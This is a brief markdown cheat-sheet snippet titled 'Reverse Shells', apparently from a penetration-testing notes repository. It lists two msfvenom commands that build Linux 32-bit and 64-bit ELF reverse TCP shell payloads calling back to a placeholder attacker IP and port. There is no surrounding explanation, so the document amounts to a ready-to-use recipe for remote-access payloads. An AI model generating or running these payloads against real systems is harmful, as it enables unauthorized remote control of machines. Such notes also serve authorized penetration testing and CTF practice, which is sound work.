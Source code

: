 # Reverse Shells

- **x86 (32-bit) Payloads**

`$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86`

- **x86-64 (64-bit) Payloads**

`$ msfvenom -p linux/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64`